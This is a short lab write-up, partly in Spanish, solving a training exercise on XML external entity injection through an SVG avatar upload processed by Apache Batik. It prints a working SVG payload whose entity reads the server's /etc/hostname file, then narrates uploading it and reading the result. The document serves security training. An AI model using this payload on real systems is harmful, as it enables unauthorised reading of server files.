

# Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Deberemos ir a este repositorio [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE Injection/README.md#xxe-inside-svg](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg) y el código que pone en el apartado classic nos lo copiaremos a un archivo con extensión svg

```bash
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```



Escribimos un nuevo comentario rellenamos y subimos el archivo con el texto que acabamos de poner.


Vemos que se ha añadido un comentario, con la imagen.


Visualizamos la imagen en grande.


Ahora vamos al apartado submit solution 

